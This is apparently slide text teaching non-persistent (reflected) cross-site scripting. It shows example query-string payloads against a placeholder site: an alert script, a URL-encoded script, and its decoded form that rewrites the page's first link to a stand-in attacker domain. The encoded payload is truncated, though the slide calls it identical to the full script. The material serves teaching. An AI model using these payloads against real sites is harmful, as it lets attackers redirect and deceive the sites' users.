

# Non-Persistent XSS Attack
Non-Persistent attack, requires a user to visit the specially crafted link by the attacker. When the user visit the link, the crafted code will get executed by the user’s browser. Let us understand this attack better with an example.

abc.com?name=guest<script>alert('attacked')</script>
abc.com?name=%3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%76%61%72%20%6c%69%6e%6b%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%28%22%61%22%29%3b%6c%69%6e%6b%5b%30%5d%2e%68%72%65
which is same as

abc.com?name=<script>window.onload = function() {var link=document.getElementsByTagName("a");link[0].href="http://not-real-xssattackexamples.com/";}</script>